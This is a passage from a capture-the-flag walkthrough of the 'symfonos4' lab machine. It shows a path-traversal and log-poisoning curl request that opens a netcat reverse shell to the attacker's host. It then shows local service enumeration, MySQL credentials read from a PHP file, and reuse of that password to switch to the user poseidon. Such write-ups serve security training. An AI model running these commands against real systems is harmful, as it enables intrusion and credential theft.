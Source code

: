 **Getting a reverse shell**

First we set up a netcat listener on port 443, and then we run the following curl request.

```bash
root@kali:~$ curl -s -b cookies_file.txt "http://192.168.179.138/sea.php?file=../../../../../../../var/log/auth&cmd=nc%20192.168.179.1%20443%20-e%20/bin/bash" | html2text -width 90 | tail -2
```

As we can see, we get a reverse shell with limited permissions.

```bash
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.138] 46544
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@symfonos4:/var/www/html$ uname -a
uname -a
Linux symfonos4 4.19.0-5-686 #1 SMP Debian 4.19.37-5+deb10u2 (2019-08-08) i686 GNU/Linux
```

**Enumerating Services**

In the obtained result we see that the port 3306 belonging to MySQL and the port 8080 possibly a web application are running locally.

```bash
www-data@symfonos4:/$ ss -antl
State     Recv-Q    Send-Q       Local Address:Port        Peer Address:Port    
LISTEN    0         80               127.0.0.1:3306             0.0.0.0:*       
LISTEN    0         128              127.0.0.1:8080             0.0.0.0:*       
LISTEN    0         128                0.0.0.0:22               0.0.0.0:*       
LISTEN    0         128                      *:80                     *:*       
LISTEN    0         128                   [::]:22                  [::]:*
```

**MySQL credentials**

The **atlantis.php** file located in the document root I found the MySQL credentials.

```bash
www-data@symfonos4:/var/www/html$ head -n 5 atlantis.php
<?php
   define('DB_USERNAME', 'root');
   define('DB_PASSWORD', 'yVzyRGw3cG2Uyt2r');
   $db = new PDO("mysql:host=localhost:3306;dbname=db", DB_USERNAME,DB_PASSWORD);
```

With the MySQL password I switch to poseidon user as shown below:

```bash
www-data@symfonos4:/var/www/html$ su poseidon
Password: yVzyRGw3cG2Uyt2r

poseidon@symfonos4:/var/www/html$ id
uid=1000(poseidon) gid=1000(poseidon) groups=1000(poseidon),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
```
